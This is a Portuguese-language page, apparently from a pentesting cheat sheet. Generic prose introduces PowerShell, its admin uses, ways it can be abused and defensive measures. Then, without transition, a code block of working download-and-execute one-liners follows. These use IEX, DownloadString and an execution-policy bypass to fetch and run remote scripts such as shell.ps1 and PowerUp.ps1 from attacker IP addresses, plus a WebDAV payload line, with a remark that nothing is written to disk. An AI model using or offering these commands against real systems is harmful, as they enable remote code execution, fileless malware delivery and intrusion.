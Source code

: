 ### Introdução ao Powershell

O PowerShell é baseado no framework .NET e usa uma sintaxe semelhante ao C#. Ele permite que os administradores executem comandos e scripts para gerenciar e automatizar tarefas no sistema operacional Windows.

### Benefícios do Powershell

O PowerShell oferece vários benefícios para os administradores de sistemas:

- Automatização: o PowerShell permite automatizar tarefas repetitivas, economizando tempo e esforço.
- Gerenciamento remoto: o PowerShell pode ser usado para gerenciar sistemas remotos, permitindo que os administradores executem comandos em vários computadores de uma só vez.
- Extensibilidade: o PowerShell é altamente extensível, permitindo que os administradores criem seus próprios módulos e scripts personalizados.
- Integração com outras tecnologias: o PowerShell pode ser integrado com outras tecnologias, como o Active Directory, o Exchange Server e o Azure, facilitando a administração desses sistemas.

### Usando o Powershell para hacking

O PowerShell também pode ser usado como uma ferramenta poderosa para hackers. Ele fornece uma ampla gama de recursos e funcionalidades que podem ser explorados para realizar ataques e comprometer sistemas.

Alguns exemplos de técnicas de hacking usando o PowerShell incluem:

- Execução de comandos maliciosos: o PowerShell pode ser usado para executar comandos maliciosos em um sistema comprometido, permitindo que um hacker execute ações não autorizadas.
- Escalonamento de privilégios: o PowerShell pode ser usado para explorar vulnerabilidades e escalonar privilégios em um sistema comprometido, permitindo que um hacker obtenha acesso privilegiado.
- Exfiltração de dados: o PowerShell pode ser usado para exfiltrar dados confidenciais de um sistema comprometido, permitindo que um hacker roube informações sensíveis.

### Protegendo-se contra ataques do PowerShell

Para se proteger contra ataques do PowerShell, é importante implementar as seguintes práticas de segurança:

- Restringir o acesso ao PowerShell: limite o acesso ao PowerShell apenas a usuários autorizados e monitore o uso do PowerShell para detectar atividades suspeitas.
- Atualizar regularmente: mantenha o sistema operacional e o PowerShell atualizados com as últimas correções de segurança para evitar vulnerabilidades conhecidas.
- Usar soluções de segurança: implemente soluções de segurança, como antivírus e firewalls, para detectar e bloquear atividades maliciosas do PowerShell.
- Educação e conscientização: treine os usuários sobre os riscos associados ao uso do PowerShell e promova a conscientização sobre as melhores práticas de segurança.

O PowerShell é uma ferramenta poderosa que pode ser usada tanto para fins legítimos quanto maliciosos. Ao entender seus recursos e funcionalidades, os administradores de sistemas podem aproveitar ao máximo o PowerShell para automatizar tarefas e melhorar a eficiência operacional, ao mesmo tempo em que implementam medidas de segurança adequadas para proteger seus sistemas contra ataques.
```bash
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.2.0.5/shell.ps1')|iex"
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"
Start-Process -NoNewWindow powershell "IEX(New-Object Net.WebClient).downloadString('http://10.222.0.26:8000/ipst.ps1')"
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/PowerUp.ps1') | powershell -noprofile
```
Processo realizando chamada de rede: **powershell.exe**\
Carga gravada no disco: **NÃO** (_pelo menos em nenhum lugar que eu pudesse encontrar usando o procmon!_)
```bash
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```